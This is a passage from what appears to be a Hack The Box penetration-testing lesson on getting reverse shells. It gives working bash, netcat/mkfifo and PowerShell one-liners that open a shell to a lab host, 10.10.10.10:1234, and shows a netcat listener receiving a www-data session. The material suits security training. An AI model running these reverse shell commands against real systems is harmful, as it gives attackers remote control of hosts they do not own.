 However, first, we need to find our system's `IP` to send a `reverse connection` back to us. We can find our `IP` with the following command:

```bash
OathBornX@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

#### Reverse Shell Commands

The `command` we execute depends on what `operating system` the `compromised host` runs on, i.e., `Linux` or `Windows`, and what `applications` and `commands` we can access. The `Payload All The Things` page has a comprehensive list of `reverse shell commands` we can use that cover a wide range of options depending on our `compromised host`.

Certain `reverse shell commands` are more reliable than others and can usually be attempted to get a `reverse connection`. The below `commands` are reliable `commands` we can use to get a `reverse connection`, for `Bash` on `Linux` `compromised hosts` and `PowerShell` on `Windows` `compromised hosts`:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the `exploit` we have on the `remote host` to `execute` one of the above `commands`, i.e., through a `Python exploit` or a `Metasploit module`, to get a `reverse connection`. Once we do, we should receive a `connection` in our `netcat listener` (`netcat`), giving us interactive access to the `compromised host`

```bash
OathBornX@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---